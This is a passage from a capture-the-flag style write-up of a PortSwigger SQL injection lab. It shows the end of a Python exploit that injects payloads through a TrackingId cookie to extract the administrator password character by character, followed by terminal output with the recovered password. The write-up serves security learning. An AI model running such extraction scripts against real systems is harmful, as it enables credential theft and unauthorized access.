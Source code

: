 ```py
				cookie = {
					'session': 'YOUR_SESSIONID',
					'TrackingId': payload
				}

				r = requests.get(url, cookies=cookie)

				if r.status_code == 200:
					# print('Error occurred')
					continue
				else:
					# print('No error')
					position += 1
					password += ''.join(character)
					print(f'[+] Found password: {password}', end='\r')
					break

			if len(password) >= 20:
				print(f'[+] administrator password: {password}')
				exit()
	except KeyboardInterrupt:
		print('\n[*] Bye!')

if __name__ == '__main__':
	main()
```

```
┌──(root🌸siunam)-[~/ctf/Portswigger-Labs/SQL-Injection/SQLi-12]
└─# python3 exploit.py
[+] administrator password: 9i0d8hz9bqnm3cyqqivy
```

**Found it! Let's login as `administrator`!**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/SQL-Injection/SQLi-12/images/Pasted%20image%2020221207054059.png)
